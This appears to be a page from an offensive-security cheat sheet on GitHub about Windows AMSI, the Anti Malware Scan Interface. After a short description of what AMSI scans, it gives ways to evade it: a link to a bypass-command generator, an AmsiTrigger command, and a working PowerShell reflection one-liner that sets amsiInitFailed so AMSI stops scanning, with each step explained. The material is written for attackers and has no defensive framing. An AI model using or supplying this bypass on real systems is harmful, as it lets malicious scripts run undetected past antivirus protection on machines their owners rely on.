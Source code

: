 #### AMSI (Anti Malware Scan Interface)
AMSI is a Powershell feature that scans payloads before execution during runtime.
It's fully integrated with:
-  Powershell
-  VBScript
-  Windows script hosts (wscript, cscript)
-  Office VBA macros
If you are getting errors saying  
```
This script contains malicious content and has been blocked by your antivirus software.
		+ CategoryInfo          : ParserError: (:) []. ParentContainsErrorRecordException
		+ FullyQualifiedErrorId : ScriptContainedMaliciousContent
```
It's AMSI.

### Automated exploitation
For commands, visit [amsi.fail](http://amsi.fail)
Or use AmsiTrigger:
```
AmsiTrigger_x64.exe -i "bypass.ps1" -f 3      // Finds and bypasses the AMSI triggers
```


One-liner to bypass AMSI using Powershell reflection:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

// Explanation
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')   // Gets the AMSI-utilities in Powershell
.GetField('amsiInitFailed','NonPublic,Static')                     // Get a specific field from the AMSI-utils section
.SetValue($null,$true)                                             // Sets "amsiInitFailed" to True, so it will stop being checked
```
